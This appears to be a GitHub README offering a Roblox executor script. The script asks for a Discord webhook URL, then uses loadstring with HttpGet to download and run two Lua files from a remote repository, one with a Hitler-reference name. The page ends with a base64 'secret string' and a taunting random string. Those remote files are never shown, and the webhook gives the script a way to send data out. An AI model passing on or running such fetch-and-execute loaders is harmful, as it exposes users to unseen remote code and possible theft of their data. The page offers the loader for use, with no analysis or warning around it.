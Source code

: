 # THIS IS ALL OPEN SOURCED!!!

## The Script
```
-- Discord Webhook URL
getgenv().DiscordWebhook = "" -- Put your discord webhook url here
getgenv().EmbedColor = "" -- Put the Embed Color here (eg. 0x00FFFF)

-- Loadstrings
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Ganterub.lua"))()
loadstring(game:HttpGet("https://raw.githubusercontent.com/Endeictic/Scriptzzb/main/Adolf-AustrianPainter.lua"))()
```
# Super secret string
Vm1wSmQwMVdXWGhXV0d4VFlrZG9XVmxVVG05WFZsVjNWbTFHVmxac2NFZFdWM1JQWVdzeGMxTnJiRlZpUjFGNlZVWkZPVkJSUFQwPQ== <-- very secret string

fuRifKXqOL0ltne <-- real accurate string (is it? is it not? YOU DECIDE!!)
